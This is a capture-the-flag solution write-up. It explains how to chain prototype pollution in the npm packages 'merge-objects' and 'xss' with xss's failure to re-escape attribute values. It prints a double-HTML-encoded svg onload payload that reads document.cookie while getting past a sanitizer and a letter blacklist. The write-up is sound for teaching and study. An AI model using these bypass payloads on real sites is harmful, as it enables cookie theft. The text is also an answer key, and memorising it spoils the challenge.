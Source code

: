 # Solution
The intended solution involves chaining together the following three vulnerabilies from two different npm packages, roughly in this order:
1. `merge-objects` prototype pollution: https://npmjs.com/advisories/716
2. `xss` prototype pollution to XSS: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
3. `xss` failing to re-escape whitelisted attribute values: https://github.com/leizongmin/js-xss/issues/180

When used in conjunction, these vulnerabilies allow you to construct a payload that bypasses the XSS filter as well as the blacklist filter.
The purpose of the blacklist filter (`sanitized.replace(/C/g, '\u0421').replace(/c/g, '\u0441')`) is to make it so that if players want to access the `document.cookie` value, they have to take advantage of the fact that the XSS filter does not re-escape attribute values.

As an example, the payload
```<svg onload="alert(document.cookie)">``` 
would easily be caught by the blacklist filter because it contains multiple c's. HTML encoding the JavaScript portion once would give you
```<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>```
which would still be caught as it would revert to
```<svg onload="alert(document.cookie)">``` 
once it is un-escaped by the XSS filter. HTML encoding the JavaScript portion of the payload twice works because 
```<svg onload=&#38;&#35;&#57;&#55;&#59;&#38;&#35;&#49;&#48;&#56;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#52;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#48;&#59;&#38;&#35;&#49;&#48;&#48;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#49;&#48;&#57;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#54;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#48;&#55;&#59;&#38;&#35;&#49;&#48;&#53;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#52;&#49;&#59;>```
becomes 
```<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>```
after passing through the XSS filter. This payload will also now make it past the blacklist filter and be served as a webpage to the hero, which un-escapes it an additional time and interprets it as
```<svg onload="alert(document.cookie)">``` as intended. Please note that the actual payload will need to send the cookie to another server controlled by the attacker and the above payload is just for illustrative purposes.

The blacklist filter also forces players to use a somewhat more rare XSS payload that doesn't directly contain a "c", as a lot of the most common ones do (e.g. <code><s<b>c</b>ript sr<b>c</b>=...</code>, <code><img sr<b>c</b>=...</code>, <code><iframe sr<b>c</b>=...</code>, etc.).

Additonally, here is a list of XSS payloads that I used to find one that can be triggered without using a "c": https://gist.github.com/phra/76518994c908ac836ec5a393f188f89a
